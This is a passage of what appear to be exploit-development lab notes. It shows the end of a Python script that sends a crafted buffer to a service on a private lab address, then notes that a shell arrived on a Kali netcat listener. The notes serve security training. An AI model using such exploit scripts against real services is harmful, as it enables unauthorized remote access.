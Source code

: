 ```python
  s.connect(("192.168.214.10", 7003))
  s.send(inputBuffer)
  
  s.close()

  print "\nDone!"
  
except:
  print "\nCould not connect!"
```

Notice we have a shell on the Kali netcat listener
![80dc6137af58c638cd5284ae6ebefdd7.png](../../../../_resources/310e40a8d3bc4fa38399e99f16856afb.png)

































